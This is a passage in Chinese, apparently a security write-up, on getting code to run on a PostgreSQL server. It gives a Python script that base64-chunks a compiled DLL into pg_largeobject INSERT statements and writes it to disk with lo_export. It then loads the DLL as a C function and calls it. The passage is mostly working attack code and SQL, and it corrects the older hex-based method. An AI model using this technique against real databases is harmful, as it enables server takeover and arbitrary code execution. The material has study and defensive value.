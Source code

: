 编译成功后，用如下 Python 脚本将其转为 Postgres 导入命令：

```Python
# coding;utf-8
import random
import base64
import binascii
id = random.randint(100000, 999999)
start = "INSERT INTO pg_largeobject VALUES (" + str(id) + ", %d, decode('"
end = "', 'base64'));"

if __name__ == '__main__':
    o = open('o.txt', 'w')
    with open('64.dll', 'rb') as fp:
        o.write('SELECT lo_create(%d);\n' % id)
        data = fp.read()
        for i in range(0,len(data),2048):
            o.write(start % (i / 2048) + '\n' + base64.b64encode( data[i:i+2048]).decode() + '\n' + end + '\n')
        o.write("SELECT lo_export(%d, 'E:\\test.dll');\nSELECT lo_unlink(%d);\n" % (id, id))

```

生成的语句如下：（PostgreSQL 9.6.7, 64 位）

```SQL
SELECT lo_create(623879);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('TVqQAA......IPEIF8=', 'base64'));
...
...
INSERT INTO pg_largeobject VALUES (12345, 0, decode('MqLfLZ......AAAAA=', 'base64'));
SELECT lo_export(623879, 'E:\test.dll');
SELECT lo_unlink(623879);
```

这里我对以前的利用方法进行了一些订正，就是使用 base64 解码，而不是流传甚广的 hex 解码，因为如果程序最后是 0000...结尾，会报错

```SQL
cve_test=# INSERT INTO pg_largeobject VALUES (433890, 5, decode('
cve_test'# 00000
cve_test'# ', 'hex'));
ERROR:  invalid hexadecimal digit: "
"
```

这时候查看 E 盘已经有一个 test.dll，执行以下语句进行测试

```SQL
CREATE OR REPLACE FUNCTION exec() RETURNS VOID AS  'E:\test.dll', 'exec' LANGUAGE C STRICT;
select exec();
```

结果应该是如下图所示：
